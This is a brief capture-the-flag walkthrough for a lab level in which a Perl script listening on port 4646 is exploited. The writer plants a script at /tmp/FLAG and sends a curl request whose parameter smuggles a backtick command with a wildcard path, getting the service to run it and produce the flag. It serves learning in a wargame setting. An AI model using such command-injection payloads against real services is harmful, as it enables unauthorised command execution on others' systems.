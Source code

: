 ## Step 1
> ls -l ~

> cat level12.pl

There was one file ``level12.pl``. This file executed on port 4646. As the level04, we knew we could do something similar.

## Step 2
> echo "getflag > /tmp/flag" > /tmp/FLAG

> curl localhost:4646?x='`/*/FLAG`'

``level12.pl`` can executed script with name in uppercase.

## Step 3
> cat /tmp/flag

We got the flag.

